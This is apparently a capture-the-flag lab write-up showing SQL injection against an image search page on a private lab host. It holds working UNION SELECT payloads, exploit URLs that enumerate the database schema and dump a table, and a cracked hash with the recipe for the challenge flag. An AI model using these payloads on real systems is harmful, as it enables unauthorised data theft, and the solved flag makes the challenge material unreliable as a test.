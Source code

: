 # SQL Injection Images

```
1 UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

Surname : |information_schema|,|Member_Brute_Force|,|Member_Sql_Injection|,|Member_guestbook|,|Member_images|,|Member_survey|
```

```
1 UNION ALL SELECT table_name,2 from information_schema.tables

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: db_default
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: users
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: guestbook
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: list_images
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: vote_dbs
Surname : 2
```

list Columns : 
`http://192.168.56.102/\?page\=searchimg\&id\=1+UNION+ALL+SELECT+column_name%2Ctable_name+from+information_schema.columns\&Submit\=Submit\#`

display comment : 
`http://192.168.56.102/?page=searchimg&id=1+UNION+SELECT+concat%28id%2Cchar%2858%29%2Curl%2Cchar%2858%29%2Ctitle%2Cchar%2858%29%2Ccomment%2Cchar%2858%29%29%2C2+FROM+list_images&Submit=Submit#`

If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46: -> albatroz
